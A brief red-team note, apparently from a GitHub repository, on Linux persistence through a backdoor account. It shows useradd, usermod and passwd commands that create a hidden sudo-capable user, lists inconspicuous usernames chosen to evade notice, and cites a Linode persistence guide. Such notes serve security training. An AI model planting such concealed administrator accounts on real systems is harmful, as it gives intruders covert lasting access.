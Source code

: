 # Living off the Land

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - User Accounts Examples

Here are the usernames that you can think of to create an account but be sure to come up your own to make it less obvious.

```
service
admin
sysadmin
oldadmin
support
helpdesk
suhelper
linux
gnu
user
olduser
ftp
sftp
ssh
sshd
pi
p1
backup
```

---
## References

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)